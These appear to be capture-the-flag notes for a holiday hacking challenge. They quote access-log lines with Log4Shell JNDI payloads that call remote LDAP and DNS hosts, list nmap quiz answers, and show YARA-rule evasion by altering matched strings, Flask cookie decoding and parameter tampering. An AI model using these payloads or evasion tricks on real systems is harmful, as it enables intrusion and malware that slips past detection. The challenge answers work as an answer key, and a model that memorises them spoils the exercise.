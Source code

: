 [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

# NMAP challenge:

## Answer all the questions in the quizme executable:
#### What port does 34.76.1.22 have open? 
```62078```
#### What port does 34.77.207.226 have open? 
```8080```
#### How many hosts appear "Up" in the scan? 
```26054```
#### How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080) 
```14372```

```grep -E "(80|8080|443)/open" bigscan.gnmap | sort |  uniq | wc -l```
#### How many hosts with status Up have no (detected) open TCP ports? 
```402```

```echo $((`grep Up | wc -l` - `grep 'open/tcp' | wc -l`))```
#### What's the greatest number of TCP ports any one host has open? 
```12```

```grep -E "(open.*){12,}" | wc -l```


# YARA Bypass

## rule yara_rule_135 
   
   {
      meta:
         description = "binaries - file Sugar_in_the_machinery"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
      strings:
         $s = "candycane"
      condition:
         $s
   }

- Change candycane to ```c@ndycane```

## rule yara_rule_1056 
   
   {
      meta:
         description = "binaries - file frosty.exe"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
      strings:
         $s1 = {6c 6962 632e 736f 2e36}
         $hs2 = {726f 6772 616d 2121}   #Hex for rogram!!
      condition:
         all of them
   }    

- Change rogram!! to ```rogram?!```

## rule yara_rule_1732 
   
   {
      meta:
         description = "binaries - alwayz_winter.exe"
         author = "Santa"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-22"
         hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
      strings:
         $s1 = "This is critical for the execution of this program!!" fullword ascii #
         $s2 = "__frame_dummy_init_array_entry" fullword ascii                       #
         $s3 = ".note.gnu.property" fullword ascii
         $s4 = ".eh_frame_hdr" fullword ascii					  #
         $s5 = "__FRAME_END__" fullword ascii					  #
         $s6 = "__GNU_EH_FRAME_HDR" fullword ascii					  #
         $s7 = "frame_dummy" fullword ascii
         $s8 = ".note.gnu.build-id" fullword ascii
         $s9 = "completed.8060" fullword ascii
         $s10 = "_IO_stdin_used" fullword ascii
         $s11 = ".note.ABI-tag" fullword ascii
         $s12 = "naughty string" fullword ascii					#
         $s13 = "dastardly string" fullword ascii					#
         $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii		#
         $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii  			#
         $s16 = "GLIBC_2.2.5" fullword ascii
         $s17 = "its_a_holly_jolly_variable" fullword ascii  			#
         $s18 = "__cxa_finalize" fullword ascii					#
         $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii		#
         $s20 = "__libc_csu_init" fullword ascii
      condition:
         uint32(1) == 0x02464c45 and filesize < 50KB and
         10 of them
   }

- Change HolidayHackChallenge{NotReallyAFlag} to ```HolidayHackChalleng3{NotReallyAFlag}```
- Change dastardly string to ```datardly_string```
- Change naughty string to ```naughty_string```
- Change __frame_dummy_init_array_entry to ```__fram3_dummy_init_array_entry```
- Change __do_global_dtors_aux_fini_array_entry to ```__d0_global_dtors_aux_fini_array_entry```
- Change its_a_holly_jolly_variable to ```its_a_ho1ly_jolly_variable```
- Change .eh_frame_hdr to ```.eh_frame_hDr```
- Change __FRAME_END__ to ```__FRAME_3ND__```
- Change __GNU_EH_FRAME_HDR to ```__GNU_EH_FRAM3_HDR```
- Change __cxa_finalize to ```__cx@_finalize```
- Change __libc_start_main@@GLIBC_2.2.5 to ```__libc_start_ma1n@@GLIBC_2.2.5```

# EXIFtool challenge

```exiftool 2021-12-*.docx | less /Jack```

```Caramel Santaigo```

Decoded Flask cookies Cyberchef from Base64 url safe zlib inflate

{"elf":"Tinsel Upatree","elfHints":["They kept checking their Snapchat app.","The elf mentioned something about Stack Overflow and Python.","Oh, I noticed they had a Star Trek themed phone case.","The elf got really heated about using tabs for indents.","hard"],"location":"Santa's Castle","options":[["Antwerp, Belgium","Prague, Czech Republic","New York, USA"],["Edinburgh, Scotland","Stuttgart, Germany","Reykjav\u00edk, Iceland"],["Montr\u00e9al, Canada","Antwerp, Belgium","Prague, Czech Republic"],["Rovaniemi, Finland","Placeholder","Tokyo, Japan"]],"randomSeed":721,"route":["New York, USA","Edinburgh, Scotland","Antwerp, Belgium","Placeholder"],"victoryToken":"{ hash:\"3852c096dcc7d6403ed61a0b247e979d28bca9714c25faa4956f2196ae7afb11\", resourceId: \"65485b84-6a1d-4dac-afcb-a43bbe34d01e\"}"}
{"elf":"Ribb Bonbowford","elfHints":["Oh, I noticed they had a Star Wars themed phone case.","The elf mentioned something about Stack Overflow and C#.","The elf got really heated about using tabs for indents.","They kept checking their Slack app.","hard"],"location":"Santa's Castle","options":[["Copenhagen, Denmark","Antwerp, Belgium","New York, USA"],["Edinburgh, Scotland","Reykjav\u00edk, Iceland","Stuttgart, Germany"],["Edinburgh, Scotland","Rovaniemi, Finland","New York, USA"],["New York, USA","Edinburgh, Scotland","Placeholder"]],"randomSeed":884,"route":["Antwerp, Belgium","Stuttgart, Germany","Edinburgh, Scotland","Placeholder"],"victoryToken":"{ hash:\"b2f333cb6d56c7329fb71f29ed29dd2c37861251290a29fc5649c44e37a23b13\", resourceId: \"f01c68fb-30e7-471c-aad3-380395e2cac6\"}"}

# Parameter tampering slot machine

Change 'cpl' to negative value to increase winnings